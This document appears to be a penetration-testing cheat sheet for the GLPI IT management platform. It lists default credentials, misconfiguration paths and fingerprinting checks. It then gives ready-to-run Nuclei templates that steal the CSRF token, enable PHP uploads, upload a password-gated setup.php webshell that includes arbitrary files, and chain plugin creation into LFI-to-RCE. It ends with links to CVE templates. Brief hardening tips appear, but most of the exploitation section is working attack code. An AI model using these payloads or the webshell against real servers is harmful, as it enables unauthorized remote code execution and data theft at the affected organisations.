 # GLPI IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/) <small>(4.2k ⭐)</small>
* [Github](https://github.com/glpi-project/glpi) <small>(4.2k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [ ] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [ ] `/files/_sessions/` - PHP sessions
  * [ ] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [ ] `/version/` - directory listing may be enabled
* [ ] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPi version can be found in two places.

* [x] Check for a file such as `/version/10.0.10`
* [x] Check `About` for GLPI version once connected
* [x] Check `/ajax/telemetry.php` for versions once connected
* [x] Detect GLPI Install Page
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — Weak Credentials

We may get a foothold if default credentials were not changed.

* [ ] Test all default credentials

🛡️ Use strong passwords and disable default accounts.

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* [ ] Navigate to `/files/_session/` and try every cookie
* [ ] Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Observer+]`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>

🛡️ It seems in recent versions, they banned a few extensions.
</div><div>

#### GLPI Exploitation — LFI To RCE

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Super Admin]`.

<details class="details-n">
<summary>Enable Plugin Creation</summary>

```yaml!
id: glpi-enable-plugin-creation

info:
  name: GLPI Enable Plugin Creation
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="
        name: csrf
        internal: true

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/profile.form.php"

    headers:
      Content-Type: "application/x-www-form-urlencoded"

    # Default is "3", to enabled plugins, we use "31"
    # (enabled on id=4 which is super-admin)
    body: "_config%5B31_0%5D=1&id=4&update=Save&_glpi_csrf_token={{token}}"

    matchers:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Create Plugin With Arbitrary PHP File</summary>

```yaml!
id: glpi-lfi-using-plugins

info:
  name: GLPI LFI using Plugins
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/kanban.php?action=add_item&itemtype=Plugin"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "application/x-www-form-urlencoded"

    body: "action=add_item&inputs=directory%3d../files/_tmp%26name%3dpwned%26version%3d1.0.0%26author%3dPwned"

    extractors:
      - type: dsl
        dsl:
          - status_code_2
```
</details>

📚 Original article: [OCD Exploit](https://sensepost.com/blog/2024/from-a-glpi-patch-bypass-to-rce/)

#### GLPI Exploitation - Known CVEs

List of known exploitable CVEs.

* [ ] [CVE-2019-10232](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2019/CVE-2019-10232.yaml)
* [ ] [CVE-2020-11034](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-11034.yaml)
* [ ] [CVE-2021-39211](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-39211.yaml)
* [ ] [CVE-2021-43778](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-43778.yaml)
* [ ] [CVE-2022-35914](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-35914.yaml)
* [ ] [CVE-2024-29889](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-29889.yaml)
</div></div>